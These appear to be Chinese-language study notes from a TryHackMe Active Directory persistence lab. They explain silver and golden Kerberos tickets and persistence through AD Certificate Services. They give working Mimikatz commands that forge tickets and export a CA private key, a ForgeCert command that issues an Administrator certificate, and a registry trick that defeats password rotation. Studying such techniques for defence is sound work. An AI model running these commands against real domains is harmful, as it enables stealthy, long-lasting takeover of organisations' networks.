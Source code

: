     - **基本原理 (Fundamentals)**: 白银票据是一种**伪造的服务票据 (Forged TGS)**。它使用目标**服务**自身的密码哈希（例如，文件服务器的计算机账户哈希）进行签名。
    - **攻击优势与限制 (Attack Advantages and Limitations)**:
        - **范围有限**：一张白银票据只能用于访问签发它的特定服务（如 `CIFS/server.domain.com`）。
        - **极其隐蔽**：由于验证过程仅在客户端和目标服务之间进行，完全**不涉及与 DC 的通信**，因此在网络层面几乎无法被检测到。
    - **持久化策略 (Persistence Strategy)**: 虽然计算机账户密码默认每 30 天轮换一次，但拥有目标主机管理员权限的攻击者可以修改注册表来禁用密码轮换，从而使白银票据能够长期有效。
- **示例：伪造黄金与白银票据 (Example: Forging Golden and Silver Tickets)**：
    
    - **伪造黄金票据 (Forging a Golden Ticket)**:
        
        PowerShell
        
        ```
        # 在 Mimikatz 中，使用获取到的 krbtgt 哈希和域 SID
        kerberos::golden /admin:FakeAdmin /domain:za.tryhackme.loc /sid:<Domain_SID> /krbtgt:<KRBTGT_NTLM_Hash> /id:500 /ptt
        ```
        
    - **伪造白银票据 (Forging a Silver Ticket)**:
        
        PowerShell
        
        ```
        # 在 Mimikatz 中，使用目标主机的计算机账户哈希
        kerberos::golden /admin:FakeAdmin /domain:za.tryhackme.loc /sid:<Domain_SID> /target:THMSERVER1.za.tryhackme.loc /service:cifs /rc4:<THMSERVER1$_NTLM_Hash> /id:500 /ptt
        ```
        

---

#### 通过 AD 证书服务实现持久化 (Persistence via AD Certificate Services)

- 基本原理 (Fundamentals)：
    
    这是最高级别、最具破坏性的持久化技术之一。攻击者如果能够窃取证书颁发机构 (CA) 的根证书及其私钥，就相当于成为了域中信任的根源。他们可以为任意用户签发有效的证书，用于身份验证，从而获得持久的、几乎无法被吊销的访问权限。
    
- **示例：窃取 CA 私钥并伪造证书 (Example: Stealing the CA Private Key and Forging Certificates)**：
    
    - **私钥提取 (Private Key Extraction)**:
        1. 在被攻陷的 CA 服务器上，运行 Mimikatz。
        2. 使用 `crypto::capi` 和 `crypto::cng` 对内存进行修补，以允许导出被标记为不可导出的私钥。
        3. 使用 `crypto::certificates /systemstore:local_machine /export` 命令，将 CA 证书及其私钥导出为 `.pfx` 文件。Mimikatz 导出的默认密码是 `mimikatz`。
    - **伪造证书 (Forging a Certificate)**: 使用 `ForgeCert.exe` 等工具和窃取的 CA 证书 (`.pfx` 文件)，为目标高权限用户（如 `Administrator`）签发一个新的客户端认证证书。
        
        Bash
        
        ```
        ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword mimikatz --Subject CN=FakeUser --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath admin_cert.pfx --NewCertPassword NewPassword123
        ```
        